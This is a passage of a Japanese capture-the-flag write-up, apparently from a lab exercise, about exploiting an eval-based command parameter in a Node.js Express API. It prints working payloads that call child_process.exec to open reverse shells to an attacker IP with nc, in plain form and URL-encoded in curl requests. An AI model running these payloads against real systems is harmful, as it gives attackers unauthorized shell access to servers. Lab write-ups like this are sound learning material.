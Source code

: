 cmd パラメータがあることが分かった。  
これはわからない。

## /api/items?cmd=

id コマンドを試してみる。

```shell
$ curl -X POST http://10.10.4.65/api/items?cmd=id
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: id is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)</pre>
</body>
</html>
```

Linuxコマンドではなくjavascriptのコマンドが必要と思われる。

```shell
require('child_process').exec('nc -e sh 10.2.22.182 6666')
```

URLエンコードして送ったが、不発。

```shell
$ curl -X POST http://10.10.4.65/api/items?cmd=%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%6e%63%20%2d%65%20%73%68%20%31%30%2e%32%2e%32%32%2e%31%38%32%20%36%36%36%36%27%29
vulnerability_exploited [object Object]
```

出力されているメッセージの意味はよく分からない。

nc -e が使えない可能性を考え、下記をURLエンコードする。

```shell
require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.22.182 6666 >/tmp/f')
```

```shell
$ curl -X POST http://10.10.4.65/api/items?cmd=%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%32%2e%32%32%2e%31%38%32%20%36%36%36%36%20%3e%2f%74%6d%70%2f%66%27%29
vulnerability_exploited [object Object]
```

